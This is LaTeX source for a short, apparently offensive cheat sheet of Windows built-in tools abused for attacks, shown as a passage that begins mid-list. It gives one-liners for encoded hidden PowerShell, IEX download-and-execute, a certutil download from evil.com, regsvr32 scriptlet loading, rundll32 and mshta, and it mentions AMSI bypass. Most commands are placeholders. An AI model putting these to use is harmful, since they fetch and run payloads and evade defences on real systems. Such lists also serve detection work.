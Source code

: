 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=*,itemsep=0.5em]
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
rundll32.exe javascript:"\..\..\mshtml,RunHTMLApplication ..."
\end{verbatim}
\end{tcolorbox}
\item Abuse \texttt{schtasks} to run \texttt{powershell -enc <b64>}.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -enc <b64>
\end{verbatim}
\end{tcolorbox}
\item \texttt{powershell -nop -w hidden -enc ...} keeps beacon alive.
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -nop -w hidden -enc ...
\end{verbatim}
\end{tcolorbox}
\item \texttt{certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip}
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip
\end{verbatim}
\end{tcolorbox}
\item \texttt{powershell.exe} Automation scripts Download-exec (\texttt{IEX (New-Object Net.WebClient).DownloadString()}), AMSI bypass
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
IEX (New-Object Net.WebClient).DownloadString()
\end{verbatim}
\end{tcolorbox}
\item \texttt{regsvr32.exe} Register COM DLLs Download \& run scriptlet via \texttt{/s /n /u /i:url scrobj.dll}
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
/s /n /u /i:url scrobj.dll
\end{verbatim}
\end{tcolorbox}
\item \texttt{mshta.exe} Run HTML applications Remote .hta launching malware
\item \texttt{certutil.exe} Cert authority mgr \texttt{-urlcache} to download files; \texttt{-encode} to base64-wrap payload

\end{enumerate}
\end{document}

